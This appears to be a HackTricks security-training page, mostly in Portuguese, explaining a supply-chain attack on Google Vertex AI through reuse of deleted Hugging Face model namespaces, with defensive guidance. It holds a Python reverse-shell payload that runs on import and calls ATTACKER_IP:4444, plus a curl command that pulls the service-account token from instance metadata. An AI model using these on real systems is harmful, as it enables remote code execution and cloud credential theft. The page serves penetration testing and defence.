 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Cenário

- Vertex AI Model Garden permite a implantação direta de muitos modelos do Hugging Face (HF).
- Identificadores de modelo do HF seguem o formato Author/ModelName. Se um author/org no HF for excluído, o mesmo nome de author pode ser re-registrado por qualquer pessoa. Atacantes podem então criar um repo com o mesmo ModelName no caminho legado.
- Pipelines, SDKs ou catálogos cloud que busquem apenas pelo nome (sem pinning/integrity) irão puxar o repo controlado pelo atacante. Quando o modelo é implantado, o código de loader desse repo pode executar dentro do container do endpoint do Vertex AI, resultando em RCE com as permissões do endpoint.

Dois casos comuns de takeover no HF:
- Remoção de propriedade: o caminho antigo retorna 404 até que alguém re-registre o author e publique o mesmo ModelName.
- Transferência de propriedade: o HF emite 307 redirects do Author/ModelName antigo para o novo proprietário. Se o author antigo for depois excluído e re-registrado por um atacante, a cadeia de redirect é quebrada e o repo do atacante passa a servir no caminho legado.

## Identificando Namespaces Reutilizáveis (HF)

- Author antigo excluído: a página do author retorna 404; o caminho do modelo pode retornar 404 até ocorrer um takeover.
- Modelos transferidos: o caminho do modelo antigo emite 307 para o novo owner enquanto o author antigo existir. Se o author antigo for depois excluído e re-registrado, o caminho legado passará a resolver para o repo do atacante.

Verificações rápidas com curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## End-to-end Attack Flow against Vertex AI

1) Descobrir namespaces de modelos reutilizáveis que o Model Garden lista como deployable:
- Encontrar modelos HF no Vertex AI Model Garden que ainda aparecem como “verified deployable”.
- Verificar no HF se o autor original foi deletado ou se o modelo foi transferido e o autor antigo foi removido depois.

2) Re-registrar o autor deletado no HF e recriar o mesmo ModelName.

3) Publicar um repo malicioso. Incluir código que seja executado no carregamento do modelo. Exemplos que comumente são executados durante o carregamento de modelos do HF:
- Side effects in __init__.py of the repo
- Custom modeling_*.py or processing code referenced by config/auto_map
- Code paths that require trust_remote_code=True in Transformers pipelines

4) A deployment do Vertex AI do legacy Author/ModelName agora puxa o repo do atacante. O loader é executado dentro do container do endpoint do Vertex AI.

5) O payload estabelece acesso a partir do ambiente do endpoint (RCE) com as permissões do endpoint.

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notas
- Loaders do mundo real variam. Muitas integrações Vertex AI HF clonam e importam módulos do repo referenciados pela config do modelo (por ex., auto_map), o que pode acionar code execution. Alguns usos exigem trust_remote_code=True.
- O endpoint normalmente roda em um container dedicado com escopo limitado, mas é um foothold inicial válido para acesso a dados e lateral movement em GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Uma vez que code esteja rodando dentro do endpoint container, considere:
- Enumerar environment variables e metadata em busca de credentials/tokens
- Acessar storage anexado ou artefatos do modelo montados
- Interagir com Google APIs via identidade do service account (Document AI, Storage, Pub/Sub, etc.)
- Persistência no artefato do modelo caso a plataforma re-puxe o repo

Enumere instance metadata se acessível (dependente do container):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Diretrizes defensivas para usuários do Vertex AI

- Fixar modelos por commit nos HF loaders para evitar substituição silenciosa:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Espelhar modelos HF verificados em um repositório/registry de artefatos interno confiável e implantar a partir daí.
- Escanear continuamente codebases e configs em busca de Author/ModelName hard-coded que foram deletados/transferidos; atualizar para novos namespaces ou fixar por commit.
- No Model Garden, verificar a proveniência do modelo e a existência do autor antes da implantação.

## Heurísticas de Reconhecimento (HTTP)

- Autor deletado: página do autor 404; caminho legado do modelo 404 até a tomada de controle.
- Modelo transferido: caminho legado 307 para novo autor enquanto o autor antigo existe; se o autor antigo for deletado e re-registrado posteriormente, o caminho legado passa a servir conteúdo do atacante.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Referências Cruzadas

- Veja a metodologia mais ampla e as notas sobre cadeia de suprimentos:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referências

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
